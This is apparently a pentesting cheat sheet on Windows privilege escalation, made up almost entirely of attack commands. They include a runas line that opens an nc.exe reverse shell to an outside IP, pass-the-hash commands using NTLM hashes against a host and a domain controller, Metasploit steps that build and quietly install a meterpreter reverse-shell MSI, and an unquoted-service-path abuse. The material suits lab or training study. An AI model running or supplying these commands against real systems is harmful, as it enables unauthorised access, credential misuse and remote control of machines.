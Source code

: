 
# Exploit Sensitive data
## Passwords reuse
### cmdkey
```
runas /savecred /user:ACCESS\\Administrator "c:\\windows\\system32\\cmd.exe /c \\\IP\\share\\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  
```
## Passwords in Registry
### SAM
#### Pass the Hash
##### Windows VM
Use the NTLM hash to authenticate 
```
C:\> wce.exe -s john-pc:securus:aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f
```
##### Kali VM
Use the NTLM hash to authenticate 
```
$ pth-winexe -U john-pc$%aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f --uninstall //10.11.0.22 cmd

$ pth-net rpc user -U 'securus\john-pc$%aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f' -S dc1.securus.corp.com
```
# Exploit Misconfigurations

## Privileges 

### AlwaysInstallElevated

#### Kali VM
```
1\. Open command prompt and type: msfconsole
2\. In Metasploit (msf > prompt) type: use multi/handler
3\. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4\. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address\]
5\. In Metasploit (msf > prompt) type: run
6\. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=\[Kali VM IP Address\] -f msi -o setup.msi
7\. Copy the generated file, setup.msi, to the Windows VM.
```
#### Windows VM
```
1.Place ‘setup.msi’ in ‘C:\\Temp’.
2.Open command prompt and type: msiexec /quiet /qn /i C:\\Temp\\setup.msi
```
## Services 
### Service Path modification
### Unquoted Service Path 
```
1\. Place Unquoted.exe in ‘C:\\Program Files\\Unquoted Path Service’.
2\. Open command prompt and type: sc start unquotedsvc
```
## Printers 
https://pentestlab.blog/tag/privilege-escalation/page/3/  
